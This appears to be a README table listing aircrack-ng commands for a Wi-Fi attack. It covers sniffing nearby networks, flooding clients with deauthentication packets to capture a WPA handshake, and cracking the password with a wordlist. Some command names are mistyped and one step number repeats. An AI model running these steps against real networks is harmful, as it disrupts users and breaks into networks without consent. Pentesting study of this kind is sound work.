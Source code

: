 | S.No |  Command             | Description                |
|------|----------------------------|----------------------------|
| 1.   | `airmon-ng check <your-wireless-network interface> `     | Checks for any running processes that could cause trouble in capturing 4-way handshake.           |
| 2.   | `airmon-ng check kill <your-wireless-network-interface>`  | Kills processes that cause trouble in capturing 4-way handshake.     |
| 3.   | `airodump –ng <your-wireless-network-interface>` | Starts listening to wireless networks around you |
| 4.   | `airodump –ng –c <channel-number-on-which-wireless-access-point-is-running>  --bssid <MAC address of WAP> <your-wireless-network-interface>`       | Returns list of MAC addresses that are connected to entered WAP.     |
| 5.   | `aireplay –ng -0 0 –a <MAC address> <your-wireless-network-interface>`     | Starts the de-authentication attack |
| 6.   | `wireshark <.cap file>`     | Opens .cap file in wireshark to explore packets that flowed during de-authentication attack. |
| 6.   | `aircrack-ng -w <path till word-list containing passwords> <.cap file>`     | Starts brue-force attack on WAP to capture encrypted password. |

